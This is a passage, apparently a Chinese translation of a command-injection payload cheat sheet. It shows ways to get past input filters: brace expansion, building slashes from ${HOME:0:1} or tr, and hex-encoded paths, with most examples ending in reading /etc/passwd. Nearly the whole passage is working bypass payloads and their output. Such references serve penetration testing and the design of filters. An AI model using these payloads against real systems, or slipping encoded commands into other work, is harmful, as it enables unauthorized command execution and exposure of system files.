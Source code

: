 ### 花括号扩展绕过

```powershell
{,ip,a}
{,ifconfig}
{,ifconfig,eth0}
{l,-lh}s
{,echo,#test}
{,$"whoami",}
{,/?s?/?i?/c?t,/e??/p??s??,}
```

### 字符过滤绕过

没有反斜杠和斜杠的命令执行 - Linux Bash

```powershell
swissky@crashlab:~$ echo ${HOME:0:1}
/

swissky@crashlab:~$ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ echo . | tr '!-0' '"-1'
/

swissky@crashlab:~$ tr '!-0' '"-1' <<< .
/

swissky@crashlab:~$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash
```

### 通过十六进制编码绕过字符过滤

```powershell
swissky@crashlab:~$ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab:~$ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
root:x:0:0:root:/root:/bin/bash
```
